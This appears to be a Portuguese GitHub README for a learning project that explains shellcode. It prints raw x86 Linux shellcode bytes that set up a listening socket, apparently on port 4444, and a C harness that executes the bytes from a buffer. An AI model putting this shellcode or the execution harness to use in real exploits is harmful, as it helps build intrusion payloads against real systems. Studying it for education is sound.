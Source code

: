 # Projeto Socket em um Shellcode

### O que é um shellcode?
Em segurança da informação, um shellcode é um trecho de código que é usado durante a exploração de alguma vulnerabilidade.

É chamado shellcode por normalmente envolver a abertura de uma shell durante a execução, mas não é necessariamente limitado a  isso.

Nesse projeto o codigo em assembly é basicamente um socket simples.

Para criarmos um shellcode, primeiramente precisamos criar um código em assembly.
Em seguida compilamos o codigo e abrimos o executável em um debugger. Assim podemos ver os bytes que precisamos para montar o shellcode.


![Pasted image 20220620033644](https://user-images.githubusercontent.com/59076746/174547182-500b5f6f-5c1d-4525-9844-b60aa8c85998.png)



Assim temos os bytes:

``` 
\x31\xc0\x31\xdb\x31\xff\x31\xf6\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xbb\x01\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x89\xc7\x69\x00\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xbb\x02\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x01\x57\x89\xe1\xbb\x04\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x00\x6a\x00\x57\x89\xe1\xbb\x05\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80
```

E podemos passar esses bytes para uma linguagem mais alto nível, como C.

```C
unsigned char shellcode[] = "\x31\xc0\x31\xdb\x31\xff\x31\xf6\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xbb\x01\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x89\xc7\x69\x00\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x57\x89\xe1\xbb\x02\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x01\x57\x89\xe1\xbb\x04\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80\x6a\x00\x6a\x00\x57\x89\xe1\xbb\x05\x00\x00\x00\xb8\x66\x00\x00\x00\xcd\x80";

main(int argc, char *argv[])
{
  int (*ret)() = (int(*)())shellcode;

  ret();
}

```

Ao compilar e executar esse código C temos um socket inicializado.

Em um uso real, o shellcode quase sempre é usado junto com um exploit (codigo que explora alguma falha).

<br />
<br />
<small>Fontes: https://gitbook.ganeshicmc.com/pwning/shellcode, https://en.wikipedia.org/wiki/Shellcode, https://www.exploit-db.com/shellcodes</small>
